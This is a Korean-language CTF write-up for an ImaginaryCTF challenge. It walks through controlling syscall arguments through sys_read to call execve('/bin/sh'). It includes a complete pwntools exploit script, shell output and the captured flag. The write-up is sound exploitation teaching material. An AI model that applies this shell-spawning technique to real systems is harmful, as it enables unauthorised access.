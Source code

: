 # [목차]
**1. [Description](#Description)**

**2. [Write-Up](#Write-Up)**

**3. [FLAG](#FLAG)**


***


# **Description**

![](images/2022-05-18-17-31-49.png)

첨부파일

[E0FA-wpre.py](https://github.com/2jinu/CTFnWargame/blob/main/CTF/ImaginaryCTF%20Round9/lookup-rev/file/E0FA-wpre.py)


# **Write-Up**

해당 바이너리를 IDA를 통해서 확인하면 syscall로만 이루어져 있는 것을 확인할 수 있다.

![](images/2022-05-18-17-32-19.png)

이때 0x40105A에서 호출하는 syscall의 인자들은 0x401050~0x401059이고, 이는 앞에 나오는 sys_read에서 조작할 수 있다.

flag를 획득하기 위해 shell을 얻을 것이고, 이를 위하여 sys_execve를 활용하면 된다.

|%rax|System call|%rdi|%rsi|%rdx|
|:---:|:---:|:---:|:---:|:---:|
|59|sys_execve|const char *filename|const char *const argv[]|const char *const envp[]|

* [sys call table](https://github.com/2jinu/CTFnWargame/blob/main/CTF/ImaginaryCTF%20Round9/lookup-rev/file/E0FA-wpre.py)


1. rax는 59(0x3B)여야만 sys_execve가 되므로 마지막 sys_read에서는 0x3B를 전달하여야 한다.
2. rdi는 "/bin/sh"을 넣으면 되기 때문에 2번째 sys_read에서 "/bin/sh"을 전달한다.
3. 나머지 sys_read에서는 0x00값만 전달하면 된다.

python코드로 조합한 exploit코드는 다음과 같다.

```py
from pwn import *

p = remote('oreos.imaginary.ml', 13337)

rdx = p64(0x00)
rdi = '/bin/sh'.encode()+b'\x00'
rsi = p64(0x00)
rax = p64(0x3B)

p.send(rdx)
p.send(rdi)
p.send(rsi)
p.send(rax)

p.interactive()

[Output]
[+] Starting local process './syscall_me_maybe': pid 15702
[+] Opening connection to oreos.imaginary.ml on port 13337: Done
[*] Switching to interactive mode
$ cat flag.txt
ictf{Here's_my_flag_sysc4ll_m3_m4yb3}
```

# **FLAG**

**ictf{Here's_my_flag_sysc4ll_m3_m4yb3}**